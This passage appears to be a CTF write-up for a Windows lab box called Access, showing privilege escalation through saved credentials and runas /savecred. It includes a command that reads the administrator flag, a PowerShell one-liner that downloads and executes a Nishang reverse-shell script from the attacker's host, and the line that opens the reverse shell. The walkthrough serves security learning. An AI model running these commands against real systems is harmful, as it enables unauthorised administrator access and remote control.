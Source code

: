 
## Privilege escalation: abusing runas stored credentials

Even if the cleartext password cannot be obtained Windows can use this saved credentials entry to execute programs as the Administrator user without the need of asking others for the administrator password every time, this can be achieved with the *runas* utility, which has the following syntax:

```shell-session
Execute a program under a different user account (non-elevated).
Syntax
      RUNAS [ [/noprofile | /profile] [/env] [/savecred | /netonly] ] /user:UserName program
[...]
   /savecred        Use credentials previously saved by the user.
                    This option is not available on Windows 7 Home or
                    Starter Editions and will be ignored.
```

Since I need the /savecred flag to use those stored credentials and it appears to be ignored in Windows 7 Home and Started Editions I run *systeminfo* just to make sure the box wasn't running any of these two and luckily it was the case:

```shell-session
Host Name:                 ACCESS
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
```

With this knowledge we can come up with a command to read the root flag. Since *runas* will open a completely new process we wouldn't be able to just get the flag from stdout, so a possibility is redirecting the output of the *more* command to a file in a directory that the Security user can access, like its own desktop:

```shell-session
runas /savecred /user:access\administrator "cmd /c more c:\users\administrator\desktop\root.txt >> c:\users\security\desktop\out_test.txt"
```

That would already be enough to complete the challenge and call it a day, but in case you weren't satisfied with just grabbing the flag and actually wanted an Administrator shell the approach is very similar, instead of running cmd I run PowerShell and used the WebClient.downloadString method to make it download a Nishang Invoke-PowerShellTcp reverse shell I hosted on my box. Here is the resulting command:

```shell-session
runas /savecred /user:access\administrator "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37:8000/access.ps1')"
```

To make sure that the reverse shell would launch automatically I added this line at the end of the script:

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 9999
```

The .ps1 script is executed automatically and returned me a shell as Administrator:

![img](/images/writeup-access/6.png)

This ends up the challenge, making it a quite fun one, definitely a nice beginner's choice for people still not too familiar with Windows.